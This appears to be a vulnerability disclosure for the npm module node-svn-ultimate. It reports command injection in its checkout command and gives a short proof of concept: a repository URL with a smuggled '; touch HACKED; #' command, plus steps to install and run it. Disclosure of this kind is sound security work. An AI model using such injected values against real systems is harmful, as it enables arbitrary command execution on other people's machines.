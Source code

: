 # Description

The `node-svn-ultimate` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executed, leading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var svnUltimate = require('node-svn-ultimate');
svnUltimate.commands.checkout( 'https://my.url/test; touch HACKED; #', 'test', function( err ) { console.log( "Checkout complete" ); } );
# Wait some seconds

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i node-svn-ultimate # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
